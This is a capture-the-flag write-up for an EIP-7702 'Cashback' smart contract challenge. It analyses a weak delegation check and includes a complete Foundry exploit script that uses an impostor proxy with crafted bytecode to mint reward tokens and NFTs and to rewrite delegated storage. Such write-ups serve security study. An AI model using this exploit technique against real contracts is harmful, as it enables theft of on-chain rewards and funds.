

## Challenge
### Prompt
You’ve just joined Cashback, the hottest crypto neobank in town. <br>Their pitch is irresistible: for every on-chain payment you make, you <br>earn points. Rack up enough and you’ll reach legendary status, unlocking<br> the coveted Super Cashback NFT badge.
The system leverages EIP-7702 to allow EOAs to accrue cashback. Users must delegate to the Cashback contract to use the `payWithCashback` function.
Rumor has it there’s a back door for power users. Your brief is <br>simple: become the loyalty program’s nightmare. Max out your cashback in<br> every supported currency and walk away with at least two Super Cashback<br> NFT, one of which must correspond to your player address.
### Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.30;

import {IERC20} from "openzeppelin-contracts-v5.4.0/token/ERC20/IERC20.sol";
import {IERC721} from "openzeppelin-contracts-v5.4.0/token/ERC721/IERC721.sol";
import {ERC1155} from "openzeppelin-contracts-v5.4.0/token/ERC1155/ERC1155.sol";
import {TransientSlot} from "openzeppelin-contracts-v5.4.0/utils/TransientSlot.sol";

/*//////////////////////////////////////////////////////////////
                        CURRENCY LIBRARY
//////////////////////////////////////////////////////////////*/

type Currency is address;

using {equals as ==} for Currency global;
using CurrencyLibrary for Currency global;

function equals(Currency currency, Currency other) pure returns (bool) {
    return Currency.unwrap(currency) == Currency.unwrap(other);
}

library CurrencyLibrary {
    error NativeTransferFailed();
    error ERC20IsNotAContract();
    error ERC20TransferFailed();

    Currency public constant NATIVE_CURRENCY = Currency.wrap(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE);

    function isNative(Currency currency) internal pure returns (bool) {
        return Currency.unwrap(currency) == Currency.unwrap(NATIVE_CURRENCY);
    }

    function transfer(Currency currency, address to, uint256 amount) internal {
        if (currency.isNative()) {
            (bool success,) = to.call{value: amount}("");
            require(success, NativeTransferFailed());
        } else {
            (bool success, bytes memory data) = Currency.unwrap(currency).call(abi.encodeCall(IERC20.transfer, (to, amount)));
            require(Currency.unwrap(currency).code.length != 0, ERC20IsNotAContract());
            require(success, ERC20TransferFailed());
            require(data.length == 0 || true == abi.decode(data, (bool)), ERC20TransferFailed());
        }
    }

    function toId(Currency currency) internal pure returns (uint256) {
        return uint160(Currency.unwrap(currency));
    }
}

/*//////////////////////////////////////////////////////////////
                       CASHBACK CONTRACT
//////////////////////////////////////////////////////////////*/

/// @dev keccak256(abi.encode(uint256(keccak256("Cashback")) - 1)) & ~bytes32(uint256(0xff))
contract Cashback is ERC1155 layout at 0x442a95e7a6e84627e9cbb594ad6d8331d52abc7e6b6ca88ab292e4649ce5ba00 {
    using TransientSlot for *;

    error CashbackNotCashback();
    error CashbackIsCashback();
    error CashbackNotAllowedInCashback();
    error CashbackOnlyAllowedInCashback();
    error CashbackNotDelegatedToCashback();
    error CashbackNotEOA();
    error CashbackNotUnlocked();
    error CashbackSuperCashbackNFTMintFailed();

    bytes32 internal constant UNLOCKED_TRANSIENT = keccak256("cashback.storage.Unlocked");
    uint256 internal constant BASIS_POINTS = 10000;
    uint256 internal constant SUPERCASHBACK_NONCE = 10000;
    Cashback internal immutable CASHBACK_ACCOUNT = this;
    address public immutable superCashbackNFT;

    uint256 public nonce;
    mapping(Currency => uint256 Rate) public cashbackRates;
    mapping(Currency => uint256 MaxCashback) public maxCashback;

    modifier onlyCashback() {
        require(msg.sender == address(CASHBACK_ACCOUNT), CashbackNotCashback());
        _;
    }

    modifier onlyNotCashback() {
        require(msg.sender != address(CASHBACK_ACCOUNT), CashbackIsCashback());
        _;
    }

    modifier notOnCashback() {
        require(address(this) != address(CASHBACK_ACCOUNT), CashbackNotAllowedInCashback());
        _;
    }

    modifier onlyOnCashback() {
        require(address(this) == address(CASHBACK_ACCOUNT), CashbackOnlyAllowedInCashback());
        _;
    }

    modifier onlyDelegatedToCashback() {
        bytes memory code = msg.sender.code;

        address payable delegate;
        assembly {
            delegate := mload(add(code, 0x17))
        }
        require(Cashback(delegate) == CASHBACK_ACCOUNT, CashbackNotDelegatedToCashback());
        _;
    }

    modifier onlyEOA() {
        require(msg.sender == tx.origin, CashbackNotEOA());
        _;
    }

    modifier unlock() {
        UNLOCKED_TRANSIENT.asBoolean().tstore(true);
        _;
        UNLOCKED_TRANSIENT.asBoolean().tstore(false);
    }

    modifier onlyUnlocked() {
        require(Cashback(payable(msg.sender)).isUnlocked(), CashbackNotUnlocked());
        _;
    }

    receive() external payable onlyNotCashback {}

    constructor(
        address[] memory cashbackCurrencies,
        uint256[] memory currenciesCashbackRates,
        uint256[] memory currenciesMaxCashback,
        address _superCashbackNFT
    ) ERC1155("") {
        uint256 len = cashbackCurrencies.length;
        for (uint256 i = 0; i < len; i++) {
            cashbackRates[Currency.wrap(cashbackCurrencies[i])] = currenciesCashbackRates[i];
            maxCashback[Currency.wrap(cashbackCurrencies[i])] = currenciesMaxCashback[i];
        }

        superCashbackNFT = _superCashbackNFT;
    }

    // Implementation Functions
    function accrueCashback(Currency currency, uint256 amount) external onlyDelegatedToCashback onlyUnlocked onlyOnCashback{
        uint256 newNonce = Cashback(payable(msg.sender)).consumeNonce();
        uint256 cashback = (amount * cashbackRates[currency]) / BASIS_POINTS;

        if (cashback != 0) {
            uint256 _maxCashback = maxCashback[currency];
            if (balanceOf(msg.sender, currency.toId()) + cashback > _maxCashback) {
                cashback = _maxCashback - balanceOf(msg.sender, currency.toId());
            }

            uint256[] memory ids = new uint256[](1);
            ids[0] = currency.toId();
            uint256[] memory values = new uint256[](1);
            values[0] = cashback;
            _update(address(0), msg.sender, ids, values);
        }
        if (SUPERCASHBACK_NONCE == newNonce) {
            (bool success,) = superCashbackNFT.call(abi.encodeWithSignature("mint(address)", msg.sender));
            require(success, CashbackSuperCashbackNFTMintFailed());
        }
    }

    // Smart Account Functions
    function payWithCashback(Currency currency, address receiver, uint256 amount) external unlock onlyEOA notOnCashback {
        currency.transfer(receiver, amount);
        CASHBACK_ACCOUNT.accrueCashback(currency, amount);
    }

    function consumeNonce() external onlyCashback notOnCashback returns (uint256) {
        return ++nonce;
    }

    function isUnlocked() public view returns (bool) {
        return UNLOCKED_TRANSIENT.asBoolean().tload();
    }
}
```
## Background

---

EIP-7702 lets an EOA temporarily behave as if it were delegated to a specific contract implementation. The code of a delegated EOA generally takes the following form.
```plain text
0xef0100 || implementation_address
```
That is, it is 23 bytes long: the first 3 bytes are the designator, and the trailing 20 bytes are the implementation address to delegate execution to.
The intended path for this challenge is to delegate the player EOA to `Cashback` and then call `payWithCashback`. Execution is then handled by `Cashback`'s code, but the storage context is the player EOA's.

---

Cashback points are tracked as ERC1155. Since `Currency.toId()` returns `uint160(currency)`, the currency address itself becomes the ERC1155 token id.
The Super Cashback NFT is an ERC721. Looking at the factory's verification conditions, the player must hold at least two NFTs, and one of them must be the NFT whose token id is `uint160(player)`.
```solidity
ERC721(Cashback(_instance).superCashbackNFT()).ownerOf(uint256(uint160(_player))) == _player
    && ERC721(Cashback(_instance).superCashbackNFT()).balanceOf(_player) >= 2
```
So simply minting two NFTs to any address is not enough. The NFT whose token id corresponds to the player address must be owned by the player.

---

`payWithCashback` turns on transient storage in the `unlock` modifier and then calls `accrueCashback`.
```solidity
modifier unlock() {
    UNLOCKED_TRANSIENT.asBoolean().tstore(true);
    _;
    UNLOCKED_TRANSIENT.asBoolean().tstore(false);
}
```
Transient storage is temporary storage that only persists for the duration of a transaction. In this challenge it is used as the flag required to pass `onlyUnlocked`.
## Challenge code analysis

---

The challenge body only shows the `Cashback` code, but we also need to look at the factory's `validateInstance` conditions.
```solidity
return Cashback(_instance).balanceOf(_player, Currency.wrap(NATIVE_CURRENCY).toId()) == NATIVE_MAX_CASHBACK
    && Cashback(_instance).balanceOf(_player, Currency.wrap(address(FREE)).toId()) == FREE_MAX_CASHBACK
    && ERC721(Cashback(_instance).superCashbackNFT()).ownerOf(uint256(uint160(_player))) == _player
    && ERC721(Cashback(_instance).superCashbackNFT()).balanceOf(_player) >= 2 && _player.code.length == 23
    && bytes23(_player.code) == expectedCode;
```
The player must fill native currency cashback up to `1 ether` and `FREE` cashback up to `500 ether`. The player must also hold at least two Super Cashback NFTs, and finally the player EOA's code must be `0xef0100 || instance`.
There are two supported currencies.
```solidity
cashbackCurrencies[0] = NATIVE_CURRENCY;
cashbackCurrencies[1] = address(FREE);
```

---

`accrueCashback` has `onlyDelegatedToCashback` applied.
```solidity
modifier onlyDelegatedToCashback() {
    bytes memory code = msg.sender.code;

    address payable delegate;
    assembly {
        delegate := mload(add(code, 0x17))
    }
    require(Cashback(delegate) == CASHBACK_ACCOUNT, CashbackNotDelegatedToCashback());
    _;
}
```
This check does not validate the entire EIP-7702 designator. It only reads a specific offset from `msg.sender.code` to verify that the delegate address is `Cashback`.
`msg.sender` need not be a genuine EIP-7702 EOA. As long as the `Cashback` address sits at `msg.sender.code[3:23]` and the rest is a proxy contract that performs whatever logic we want, we can pass this check.

---

`accrueCashback` calls back into `msg.sender` in the following order.
```solidity
uint256 newNonce = Cashback(payable(msg.sender)).consumeNonce();
uint256 cashback = (amount * cashbackRates[currency]) / BASIS_POINTS;
```
And `onlyUnlocked` also checks `msg.sender`'s `isUnlocked()`.
```solidity
modifier onlyUnlocked() {
    require(Cashback(payable(msg.sender)).isUnlocked(), CashbackNotUnlocked());
    _;
}
```
In other words, if `msg.sender` is a proxy we built, we can answer `isUnlocked()` and `consumeNonce()` however we like. If we make `isUnlocked()` always return `true` and `consumeNonce()` return `10000` once, we can call `accrueCashback` directly and also mint the Super Cashback NFT.

---

Cashback is computed as follows.
```solidity
uint256 cashback = (amount * cashbackRates[currency]) / BASIS_POINTS;
```
Per the factory, the rates and maxes are the following values.
```solidity
uint256 constant NATIVE_CASHBACK_RATE = 50; // 0.5%
uint256 constant FREE_CASHBACK_RATE = 200; // 2%
uint256 constant NATIVE_MAX_CASHBACK = 1 ether;
uint256 constant FREE_MAX_CASHBACK = 500 ether;
```
To mint up to the cap, the required payment amount is roughly as follows.
$$
amount = \left\lceil \frac{targetCashback \times 10000}{rate} \right\rceil
$$
Since we call `accrueCashback` directly rather than going through `payWithCashback`, where an actual payment happens, we just pass this amount as the argument.

---

Getting the ERC1155 cashback and the first NFT via the proxy alone is not enough. At the end the factory verifies that the player code is exactly `0xef0100 || instance`.
```solidity
bytes23 expectedCode = bytes23(bytes.concat(hex"ef0100", abi.encodePacked(_instance)));
_player.code.length == 23 && bytes23(_player.code) == expectedCode
```
So at the end of the exploit we must EIP-7702 delegate the player EOA to the real `Cashback` instance.
Also, to create the NFT for the player address token id, `consumeNonce()` must become `10000` in the player context. `Cashback`'s storage layout uses the ERC-7201 custom layout, and `nonce` sits at offset 3 from the base slot.
```solidity
contract Cashback is ERC1155 layout at 0x442a95e7a6e84627e9cbb594ad6d8331d52abc7e6b6ca88ab292e4649ce5ba00 {
    uint256 public nonce;
```
So we briefly delegate the player to `CashbackNonceSetter` to write `nonce = 9999`, then delegate back to `Cashback` and call `payWithCashback(..., 0)`. Then `consumeNonce()` returns `10000`, and the NFT for the player token id is minted.
## Solution
First build the `CashbackImpostor` proxy. The front of the runtime is laid out as `PUSH22(0x0000 || cashback); POP`.
```solidity
hex"750000", cashback, hex"50..."
```
This puts the `cashback` address at `code[3:23]`, passing the `mload(add(code, 0x17))` check in `onlyDelegatedToCashback`. At the same time, the address bytes are immediate data of `PUSH22`, so they do not disrupt the EVM execution flow.
The proxy `delegatecall`s the rest of the calldata to `CashbackImpostorLogic`. The logic always answers `isUnlocked()` with `true` and returns `10000` for the first `consumeNonce()`. Then cashback ERC1155 is minted to the proxy address, and one Super Cashback NFT for the proxy address token id is also minted.
Next, the proxy hands the ERC1155 cashback it holds to the player, and also transfers the NFT for the proxy token id to the player. Finally we manipulate the player EOA's delegation. First we delegate to `CashbackNonceSetter` to set the `nonce` in the player's storage to `9999`, then delegate to `Cashback` and call `payWithCashback(NATIVE, player, 0)`. In this call the Super Cashback NFT for the player token id is minted, and the player code also becomes `0xef0100 || instance`, the final verification condition.
Mid-way, the player may still be delegated to a previous instance. In that case the ERC1155 `safeTransferFrom` sees the player as a contract and calls `onERC1155Received`, which reverts. So at the start of the exploit we clear the player delegation once to `address(0)`.
### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import "forge-std/Script.sol";

type Currency is address;

interface ICashback {
    function accrueCashback(Currency currency, uint256 amount) external;
    function balanceOf(address account, uint256 id) external view returns (uint256);
    function cashbackRates(Currency currency) external view returns (uint256);
    function maxCashback(Currency currency) external view returns (uint256);
    function payWithCashback(Currency currency, address receiver, uint256 amount) external;
    function safeTransferFrom(address from, address to, uint256 id, uint256 value, bytes calldata data) external;
    function superCashbackNFT() external view returns (address);
}

interface ICashbackFactory {
    function FREE() external view returns (address);
}

interface IERC721Like {
    function balanceOf(address account) external view returns (uint256);
    function ownerOf(uint256 tokenId) external view returns (address);
    function transferFrom(address from, address to, uint256 tokenId) external;
}

interface ICashbackImpostor {
    function attack(address cashback, address beneficiary, address[] calldata currencies) external;
    function transferERC721(address nft, address to, uint256 tokenId) external;
}

interface ICashbackNonceSetter {
    function setCashbackNonce(uint256 value) external;
}

contract CashbackImpostorLogic {
    uint256 private constant BASIS_POINTS = 10000;
    Currency private constant NATIVE_CURRENCY = Currency.wrap(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE);
    bool private superCashbackMinted;

    function attack(address cashback_, address beneficiary, address[] calldata currencies) external {
        ICashback cashback = ICashback(cashback_);
        uint256 nftMints;

        for (uint256 i = 0; i < currencies.length; i++) {
            Currency currency = Currency.wrap(currencies[i]);
            uint256 id = uint160(currencies[i]);
            uint256 maxAmount = cashback.maxCashback(currency);
            uint256 beneficiaryBalance = cashback.balanceOf(beneficiary, id);

            if (beneficiaryBalance >= maxAmount) {
                continue;
            }

            uint256 rate = cashback.cashbackRates(currency);
            require(rate != 0, "unsupported currency");

            uint256 remaining = maxAmount - beneficiaryBalance;
            uint256 paymentAmount = _cashbackToPaymentAmount(remaining, rate);

            cashback.accrueCashback(currency, paymentAmount);
            cashback.safeTransferFrom(address(this), beneficiary, id, remaining, "");
            nftMints++;
        }

        while (nftMints < 2) {
            cashback.accrueCashback(NATIVE_CURRENCY, 0);
            nftMints++;
        }
    }

    function transferERC721(address nft, address to, uint256 tokenId) external {
        IERC721Like(nft).transferFrom(address(this), to, tokenId);
    }

    function isUnlocked() external pure returns (bool) {
        return true;
    }

    function consumeNonce() external returns (uint256) {
        if (!superCashbackMinted) {
            superCashbackMinted = true;
            return 10000;
        }

        return 1;
    }

    function _cashbackToPaymentAmount(uint256 cashbackAmount, uint256 rate) private pure returns (uint256) {
        uint256 quotient = cashbackAmount / rate;
        uint256 remainder = cashbackAmount % rate;
        uint256 amount = quotient * BASIS_POINTS;

        if (remainder != 0) {
            amount += ((remainder * BASIS_POINTS) + rate - 1) / rate;
        }

        return amount;
    }
}

contract CashbackImpostor {
    constructor(address cashback, address implementation) payable {
        bytes memory runtime = abi.encodePacked(
            hex"750000", cashback, hex"50363d3d373d3d3d363d73", implementation, hex"5af43d82803e903d91604357fd5bf3"
        );

        assembly {
            return(add(runtime, 0x20), mload(runtime))
        }
    }
}

contract CashbackNonceSetter {
    bytes32 private constant CASHBACK_STORAGE = 0x442a95e7a6e84627e9cbb594ad6d8331d52abc7e6b6ca88ab292e4649ce5ba00;

    function setCashbackNonce(uint256 value) external {
        bytes32 slot = bytes32(uint256(CASHBACK_STORAGE) + 3);

        assembly {
            sstore(slot, value)
        }
    }
}

contract Sol36 is Script {
    address private constant CASHBACK_FACTORY = 0xaCC5D8b0dc23b3e8b1651900e5064ce7CB851E89;
    Currency private constant NATIVE_CURRENCY = Currency.wrap(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE);
    uint256 private constant SUPERCASHBACK_NONCE_PREIMAGE = 9999;

    function run() external {
        uint256 privateKey = vm.envUint("PRIVATE_KEY");
        address player = vm.addr(privateKey);
        ICashback cashback = ICashback(vm.envAddress("CASHBACK_INSTANCE"));
        address free = ICashbackFactory(CASHBACK_FACTORY).FREE();
        address superCashbackNFT = cashback.superCashbackNFT();
        address[] memory currencies = new address[](2);
        currencies[0] = Currency.unwrap(NATIVE_CURRENCY);
        currencies[1] = free;

        vm.startBroadcast(privateKey);

        CashbackImpostorLogic logic = new CashbackImpostorLogic();
        address impostor = address(new CashbackImpostor(address(cashback), address(logic)));

        vm.signAndAttachDelegation(address(0), privateKey);
        (bool cleared,) = player.call("");
        require(cleared, "clear delegation failed");

        ICashbackImpostor(impostor).attack(address(cashback), player, currencies);

        uint256 impostorTokenId = uint256(uint160(impostor));
        ICashbackImpostor(impostor).transferERC721(superCashbackNFT, player, impostorTokenId);

        CashbackNonceSetter nonceSetter = new CashbackNonceSetter();
        vm.signAndAttachDelegation(address(nonceSetter), privateKey);
        ICashbackNonceSetter(player).setCashbackNonce(SUPERCASHBACK_NONCE_PREIMAGE);

        vm.signAndAttachDelegation(address(cashback), privateKey);
        ICashback(player).payWithCashback(NATIVE_CURRENCY, player, 0);

        uint256 playerTokenId = uint256(uint160(player));
        require(IERC721Like(superCashbackNFT).ownerOf(playerTokenId) == player, "player token NFT missing");
        require(IERC721Like(superCashbackNFT).balanceOf(player) >= 2, "player needs two NFTs");
        require(
            player.code.length == 23
                && bytes23(player.code) == bytes23(abi.encodePacked(hex"ef0100", address(cashback))),
            "player is not delegated"
        );

        _verifyCashbackBalances(cashback, player, currencies);

        vm.stopBroadcast();
    }

    function _verifyCashbackBalances(ICashback cashback, address player, address[] memory currencies) private view {
        for (uint256 i = 0; i < currencies.length; i++) {
            Currency currency = Currency.wrap(currencies[i]);
            uint256 id = uint160(currencies[i]);
            require(cashback.balanceOf(player, id) == cashback.maxCashback(currency), "cashback is not maxed");
        }
    }
}
```

